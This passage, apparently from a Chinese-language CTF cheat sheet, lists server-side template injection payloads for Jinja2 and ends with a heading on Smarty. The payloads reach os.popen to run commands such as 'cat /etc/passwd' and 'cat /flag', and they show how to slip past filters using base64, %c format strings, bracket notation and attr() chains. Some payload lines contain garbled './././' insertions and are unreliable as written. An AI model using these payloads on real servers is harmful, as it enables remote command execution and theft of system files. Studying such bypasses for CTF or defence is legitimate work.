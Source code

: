 这条payload等效于

```
{{“”.__class__.__init__.globals__.os.popen(“ls”).read()}}
```



### base64编码绕过

"__class__"==("X19jbGFzc19f").decode("base64")

### 格式化字符串

```
{{()|attr("%c%cclass%c%c"%(95,95,95,95))|attr("%c%cbase%c%c"%(95,95,95,95))|attr("%c%csubclasses%c%c"%(95,95,95,95))()|attr("%c%cgetitem%c%c"%(95,95,95,95))(117)|attr("%c%cinit%c%c"%(95,95,95,95))|attr("%c%cglobals%c%c"%(95,95,95,95))|attr("%c%cgetitem%c%c"%(95,95,95,95))(‘popen’)(‘cat /etc/passwd’)|attr(‘read’)()}}
```

%c %(95) 即下划线(如果是在 hackbar 注入，需要将%编码为%25。在 URL中%是一个特殊字符，用于表示后面紧跟着两个十六进制数字的转义序列，如果想在 URL中包含%字符本身，需要对它进行额外的编码，将%编码成%25)

%c是占位符，后面95是_的ascii码

# 10.点"."过滤

## 中括号代替

```
{{''.__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"](./././././././././././'cat /flag').read()}}
```

```
{{()['__class__']['__base__']['__subclasses__'](./././././././././././)[117]['__init__']['__globals__']['popen'](./././././././././././'cat /etc/passwd')['read'](./././././././././././)}}
```



## attr代替

```
{{()|attr(‘__class__’)|attr(‘__base__’)|attr(‘__subclasses__’)()|attr(‘__getitem__’)(199)|attr(‘__init__’)|attr(‘__globals__’)|attr(‘__getitem__’)(‘os')|attr(‘popen’)(‘ls’)|attr(‘read’)()}}
```





# 12.smarty SSTI

控制XFF进行命令执行（这是要在前端有IP相关回显的情况）
